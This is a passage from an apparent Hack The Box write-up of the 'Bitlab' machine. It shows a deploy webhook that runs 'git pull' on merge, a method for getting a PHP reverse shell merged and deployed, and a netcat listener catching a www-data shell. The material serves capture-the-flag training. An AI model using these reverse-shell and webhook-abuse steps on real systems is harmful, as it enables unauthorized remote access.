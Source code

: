 {{< image src="/images/htb/bitlab/1.6-web_enum.png" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/htb/bitlab/1.7-web_enum.png" position="center" style="border-radius: 8px;" >}}

```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```

Tying together the pieces we have at this point, we can figure out the foothold: we need to upload a php reverse shell, having it merged to master (the code of ```index.php``` specifies git pull will being executed basically if there was a merge to master), once that is done, a webhook will execute ```index.php``` from ```Deployer``` with this we will have our reverse shell uploaded to server.

## RCE -> www-data -> root

We upload the next [php reverse shell by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) changing ```$ip = '127.0.0.1'``` and ```$port = 1234``` to our ip and the port we will be listening in our machine, afterwards we merge it (we will be automatically redirected to the page for merging it).

Now, the reverse shell is uploaded, but we still need to execute it, for that is needed to know which one is the path to execute it, if we remember the project ```Deployer``` has it's index.php which will print an "OK" we could try to access the path of deployer and see if it is printed, if it is, then we know that the path for our reverse shell will be ```http://10.0.0.14/profile/<name of our reverse shell>```:

{{< image src="/images/htb/bitlab/1.rce.png" position="center" style="border-radius: 8px;" >}}

now we know that indeed that the mentioned url above will be the one wee need to use.

We run the listener for our reverse shell and execute it, with it having our rce:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/bitlab# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.114] 57130
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 19:56:40 up 12 min,  0 users,  load average: 0.55, 0.56, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bitlab:/var/www$ pwd
pwd
/var/www
```
